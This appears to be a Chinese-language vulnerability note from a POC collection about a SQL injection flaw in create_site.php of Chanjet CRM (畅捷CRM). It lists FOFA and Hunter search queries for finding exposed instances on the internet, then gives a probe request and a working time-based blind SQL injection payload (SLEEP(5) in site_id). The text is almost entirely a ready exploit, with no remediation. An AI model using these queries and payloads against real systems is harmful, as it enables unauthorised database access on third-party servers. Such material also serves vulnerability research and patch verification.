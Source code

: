 # 畅捷通 畅捷CRM create_site.php SQL注入漏洞

## 网络测绘

fofa: app="畅捷通-畅捷CRM"

hunter: web.title="畅捷CRM"

## POC / EXP

```
/WebSer~1/create_site.php?site_id=1
请求弹窗register fail,please again存在漏洞

/WebSer~1/create_site.php?site_id=1+AND+%28SELECT+6663+FROM+%28SELECT%28SLEEP%285%29%29%29lbcfz%29
```